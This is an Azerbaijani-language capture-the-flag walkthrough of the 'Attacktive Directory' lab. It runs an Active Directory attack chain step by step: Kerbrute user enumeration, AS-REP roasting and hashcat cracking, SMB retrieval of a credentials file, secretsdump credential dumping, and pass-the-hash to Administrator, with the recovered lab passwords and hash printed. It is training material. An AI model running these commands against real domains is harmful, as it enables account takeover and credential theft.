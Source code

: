 # Attacktive Directory CTF

Nmap, cihazda hansı portların açıq olduğunu, hansı xidmətlərin işlədiyini aşkar etmək və hətta hansı əməliyyat sisteminin işlədiyini aşkar etmək üçün illər ərzində təkmilləşdirilmiş nisbətən mürəkkəb bir yardım proqramıdır.

```bash
sudo nmap -sV 10.10.56.170 -T4 -vv
```
![image alt]()

* Əvvəlcə Impacket Github repo-nu qutunuza klonlamalı olacaqsınız. Aşağıdakı komanda Impacket-i `/opt/impacket-ə` klonlayacaq:
```bash

git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install

```
* Hələ də problem yaşayırsınızsa, aşağıdakı skripti sınaqdan keçirə və bunun işlədiyini yoxlaya bilərsiniz:
```bash
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ 
sudo pip3 install .
sudo python3 setup.py install
```
# Bloodhound və Neo4j quraşdırılması

Bloodhound, Attacktive Directory-ə hücum edərkən istifadə edəcəyimiz başqa bir vasitədir. Alətin xüsusiyyətlərini daha sonra nəzərdən keçirəcəyik, lakin hələlik Apt ilə iki paket quraşdırmalıyıq, bunlar `bloundhound` və `neo4j`. Onu aşağıdakı əmrlə quraşdıra bilərsiniz:

* link: https://www.kali.org/tools/bloodhound/

- Problemlərin aradan qaldırılması (**Troubleshooting**)

Bloodhound və Neo4j quraşdırmaqda probleminiz varsa, aşağıdakı əmri verməyə cəhd edin:
```bash
sudo apt update && apt upgrade
sudo neo4j console

#Yükləmək istədikdə , hər hansı bir problem olsa, onda bu linkə keçid edin:
link: https://www.kali.org/tools/bloodhound/
```
![image alt]()

#  Evil-WinRM :
`https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm#using-evil-winrm`

Note : **Evil-WinRM** Windows serverlərinə və iş stansiyalarına **Windows Remote Management (WinRM)** vasitəsilə qoşulmaq üçün istifadə olunan bir alətdir.

```bash
sudo apt install evil-winrm

link : https://www.kali.org/tools/evil-winrm/
```

# Enum4linux:
Enum4linux Windows sistemlərində informasiya toplamaq üçün istifadə olunan bir Linux alətidir. Əsas məqsədi Windows sistemləri haqqında mümkün qədər çox məlumat əldə etməkdir, xüsusilə də Active Directory və ya şəbəkə sınaqları zamanı.

```bash
 enum4linux -a 10.10.56.170 
```
NetBIOS və SMB (Server Message Block) protokolu vasitəsilə məlumat toplamaq:
(139/445)
Sistem adları, domen adları və iş qrupları haqqında məlumat.
Paylaşılan resursların siyahısını çıxarmaq (shared folders).
Aktiv istifadəçilər və qruplar haqqında məlumat.

![image alt]()

```bash
# nmap scan vasitəsilə default skriptləri yoxladıq
sudo nmap -sCV  10.10.56.170 -T4 -vv  
```
![image alt]()

# Kerberos
- Kerberos Active Directory daxilində əsas autentifikasiya xidmətidir. Bu portun açıq olması ilə istifadəçiləri, parolları və hətta parol spreyini kobud güclə tapmaq üçün `Kerbrute` adlı alətdən  istifadə edə bilərik!
1. Kerbrute yuklemek ucun: https://github.com/ropnop/kerbrute/releases
2. Parollar üçün wordlists: https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
3. İstifadəçilər üçün wordlists : https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

```bash
kerbrute userenum --dc 10.10.56.170 -d spookysec.local userlist.txt
```

![image alt]()

**ASREProasting** adlı hücum metodu ilə **Kerberos** sistemindəki bir zəiflikdən sui-istifadə etmək mümkündür. Bu hücum, istifadəçi hesabının **"Ön Doğrulama Tələb Etmir"** (Pre-Authentication Not Required) imtiyazına malik olduğu hallarda baş verir.

Bu nə deməkdir?

- Belə hesablar **Kerberos Bileti (TGT - Ticket Granting Ticket)** tələb etməzdən əvvəl hər hansı bir identifikasiya (məsələn, düzgün parol və ya hər hansı digər təsdiq mexanizmi) təqdim etməyə ehtiyac duymur.
- Bu, hücumçuya həmin hesabın **encrypted bileti**ni əldə edib **offline brute-force hücumu** vasitəsilə parolu açmağa imkan verir.

Bu üsul, xüsusilə zəif və düzgün konfiqurasiya olunmamış Kerberos sistemlərini hədəfləmək üçün istifadə edilir.

_________________________________________________________________________________________________________________________
**Kerbrute** alətindən istifadə edərək sistemdə mövcud olan istifadəçi adlarını müəyyən edib onları bir faylda saxlamışam. Daha sonra isə **Impacket**-in `GetNPUsers.py` skriptindən istifadə edərək, parolsuz **AS-REP Roasting** hücumunu həyata keçirirəm.

Bu proses mənə, hansı istifadəçilərin **Kerberos biletlərini (TGT)** parol təqdim etmədən əldə edə biləcəyimi öyrənməyə imkan verir. Əsas məqsəd, "Ön Doğrulama Tələb Etmir" imtiyazına malik olan hesabları aşkarlamaqdır. Bu cür zəifliklər, düzgün konfiqurasiya olunmamış Active Directory mühitlərində istifadə edilə bilər.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.56.170 spookysec.local/ -no-pass -usersfile
enum-useers
```

# Ümumi hash növləri
link: https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
#GetNPUsers.py ilə əldə etdiyimiz hash yeni bir fayla yazırıq,
#ve onu hashcat ilə crack etməyə çalışacağıq.

hashcat -m 18200 yeni-hash passwordlist.txt 

nəticə : management2005
```
# SMBClient
SMBClient — SMB (Server Message Block) protokolunu istifadə edərək, şəbəkə üzərindən fayl paylaşımı, çap xidmətləri və digər şəbəkə resurslarına daxil olmaq üçün istifadə olunan bir alətdir

```bash
smbclient -L //10.10.143.217/  -U svc-admin
smbclient  //10.10.143.217/backup -U svc-admin
get backup_credentials.txt


#Bu komanda, base64 ilə kodlaşdırılmış mətni deşifrə edir.
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

![image alt]()
![image alt]()
![image alt]()
![image alt]()

# Credential Dumping: Secretsdump aləti ilə Active Directory-dən istifadəçi məlumatlarını ələ keçirdim.
```bash
secretsdump.py 'spookysec.local/svc-admin:management2005@10.10.143.217'
```
![image alt]()

```bash
secretsdump.py 'spookysec.local/backup:backup2517860@10.10.143.217' 
```
![image alt]()

# Pass the hash with evil-winrm

```bash
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.50.82
```
![image alt]()
![image alt]()
![image alt]()
![image alt]()
![image alt]()